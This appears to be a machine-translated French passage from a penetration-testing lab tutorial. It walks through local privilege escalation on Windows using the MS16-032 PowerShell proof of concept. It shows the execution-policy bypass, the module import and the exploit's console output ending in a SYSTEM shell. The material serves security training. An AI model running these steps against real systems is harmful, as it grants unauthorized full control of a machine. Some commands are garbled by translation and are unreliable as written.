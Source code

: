 En parcourant les résultats, nous pouvons voir une liste assez longue, quelques modules Metasploit et quelques exploits PoC autonomes. Nous devons filtrer le bruit, supprimer tous les exploits de déni de service et les exploits qui n'ont pas de sens pour notre système d'exploitation cible. Celui qui ressort immédiatement comme intéressant est le MS16-032. Une explication détaillée de ce bogue peut être trouvée dans cet [article de blog Project Zero](https://googleprojectzero.blogspot.com/2016/03/exploiting-leaked-thread-handle.html) qui est un bogue dans la connexion secondaire. Service.

#### Exploitation de MS16-032 avec PowerShell PoC

Utilisons un [PowerShell PoC](https://www.exploit-db.com/exploits/39719) pour tenter d'exploiter cela et d'élever nos privilèges.

Exploitation de MS16-032 avec PowerShell PoC

```
PS C:\htb> Contournement Set-ExecutionPolicy -processus de portée

Modification de la politique d'exécution
La politique d'exécution vous protège des scripts auxquels vous ne faites pas confiance. La modification de la stratégie d'exécution peut exposer
vous aux risques de sécurité décrits dans la rubrique d'aide about_Execution_Policies. Voulez-vous modifier l'exécution
politique?
[O] Oui [N] Non [S] Suspendre [?] Aide (la valeur par défaut est "O") : A
[O] Oui [N] Non [S] Suspendre [?] Aide (la valeur par défaut est "O") : O

PS C:\htb> Import-Module .\Invoke-MS16-032.ps1
PS C:\htb> Invoke-MS16-032

          __ __ ___ ___ ___ ___ ___ ___
         | V | _|_ | | _|___| |_ |_ |
         | |_ |_| |_| . |___| | |_ | _|
         |_|_|_|___|_____|___| |___|___|___|

                        [par b33f -> @FuzzySec]

[?] Nombre de cœurs du système d'exploitation : 6
[>] Duplication du handle CreateProcessWithLogonW
[?] Terminé, en utilisant le handle de thread : 1656

[*] Détection d'un jeton d'emprunt d'identité privilégié..

[?] Le sujet appartient à : svchost
[+] Discussion suspendue
[>] Effacement du jeton d'emprunt d'identité actuel
[>] Construction du jeton d'emprunt d'identité SYSTEM
[?] Réussite, ouvrez le descripteur de jeton SYSTEM : 1652
[+] Reprise du fil..

[*] Renifler le shell SYSTEM..

[>] Duplication du jeton SYSTEM
[>] Lancement de la course aux jetons
[>] Lancement de la course au processus
[!] Sainte fuite de poignée Batman, nous avons une coque SYSTEM !!

```
